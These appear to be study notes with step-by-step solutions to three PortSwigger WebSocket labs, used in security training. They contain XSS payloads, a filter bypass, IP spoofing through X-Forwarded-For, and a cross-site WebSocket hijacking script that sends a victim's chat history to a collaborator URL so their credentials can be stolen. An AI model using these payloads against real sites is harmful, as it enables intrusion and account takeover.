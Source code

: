 ## Table of Contents

- [[#Manipulating WebSocket messages to exploit vulnerabilities]]
- [[#Manipulating the WebSocket handshake to exploit vulnerabilities]]
- [[#Cross-site WebSocket hijacking]]

## Manipulating WebSocket messages to exploit vulnerabilities
Reference: https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities

<!-- omit in toc -->
## Quick Solution 
Intercept the WebSocket message and set the content to ``<img src=x onerror='alert(1)'>``.

<!-- omit in toc -->
## Solution 
1. Click "Live chat" and send a chat message. 
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Using your browser, send a new message containing a < character. In Burp Proxy, find the corresponding WebSocket message and observe that the < has been HTML-encoded by the client before sending.
4. Ensure that Burp Proxy is configured to intercept WebSocket messages, then send another chat message.
5. Edit the intercepted message to contain the following payload: ``<img src=1 onerror='alert(1)'>``
6. Observe that an alert is triggered in your browser. This will also happen in the support agent's browser. 

## Manipulating the WebSocket handshake to exploit vulnerabilities
Reference: https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities

<!-- omit in toc -->
## Quick Solution 
Intercept the WebSocket message and set the content to ``<img src=1 oNeRrOr=alert`1`>`` since there is an aggressive but flawed XSS filter (the solution says to also add the ``X-Forwarded-For: 1.1.1.1`` header to spoof the IP address).

<!-- omit in toc -->
## Solution 
1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:
```
<img src=1 onerror='alert(1)'>
```
5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated. 
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:
```
X-Forwarded-For: 1.1.1.1
```
8. Click "Connect" to successfully reconnect the WebSocket. 
9. Send a WebSocket message containing an obfuscated XSS payload, such as:
```
<img src=1 oNeRrOr=alert`1`> 
```

## Cross-site WebSocket hijacking
Reference: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

<!-- omit in toc -->
## Quick Solution
in this lab a specific script must be created and put inside the **Exploit Server**. The Live Chat uses WebSockets without CSRF Tokens, so using the Exploit Server and the Burp Collaborator it is possible to exfiltrate the victim's data (look at the Solution for the exploit code).

<!-- omit in toc -->
## Solution
1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:
```
<script>
  var ws = new WebSocket('wss://your-websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```
7. Replace ``your-websocket-url`` with the URL from the WebSocket handshake (``your-lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``your-collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.